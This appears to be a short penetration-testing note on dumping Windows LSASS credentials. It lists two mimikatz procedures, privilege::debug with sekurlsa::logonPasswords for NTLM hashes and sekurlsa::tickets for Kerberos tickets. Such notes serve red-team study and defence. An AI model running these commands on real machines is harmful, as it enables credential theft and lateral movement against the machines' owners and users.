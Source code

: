 ```yaml
---
id: LSASS
aliases:
  - Dumping LSASS
tags:
  - windows
  - AD
  - passwords
  - pivoting
  - ntlm
  - kerberos
---
```

**Note:** SYSTEM / Local Admin Privileges are required to dump LSASS

## Method 1
> Steal NTLM (or others) hashes of logged on users

1. Run `mimikatz.exe`
2. Engage the `SeDebugPrivlege` privilege with `privilege::debug`
3. Dump credentials with `sekurlsa::logonPasswords`


## Method 2
> Abuses TGT and service tickets -> steal TGT & TGS

1. List the content of a SMB share on target machine -> creates and caches a service ticket
2. Run `mimikatz.exe`
3. Engage the `SeDebugPrivlege` privilege with `privilege::debug`
4. Dump credentials with `sekurlsa::tickets`
